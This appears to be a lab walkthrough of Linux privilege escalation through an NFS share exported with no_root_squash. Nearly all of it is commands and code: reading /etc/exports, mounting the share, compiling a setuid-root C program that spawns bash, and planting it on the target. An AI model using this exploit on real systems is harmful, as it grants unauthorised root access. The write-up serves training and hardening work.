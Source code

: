 On target machine, check configuration:

```bash
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

All 3 shares have the `no_root_squash` option.

Let's mount:

```bash
joshua@kaligra:~$ mkdir /tmp/nfs
joshua@kaligra:~$ sudo mount -t nfs -o rw 10.10.50.1:/home/ubuntu/sharedfolder /tmp/nfs
[sudo] password for joshua:
```

Let's compile a setuid binary:

```c
[sugo@junkie ~]$ cat shell.c

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```bash
[sugo@junkie ~]$ gcc shell.c
```

Let's copy `a.out` to our target share:

```bash
root@kaligra:/home/joshua/Desktop# cp a.out /tmp/nfs/
root@kaligra:/home/joshua/Desktop# chmod +sx /tmp/nfs/a.out
```

Back to target machine, now we have:

```bash
$ hostname
ip-10-10-50-1
$ ls -l /home/ubuntu/sharedfolder
total 12
-rwsr-sr-x 1 root root 8464 Jul 29 07:01 a.out
```

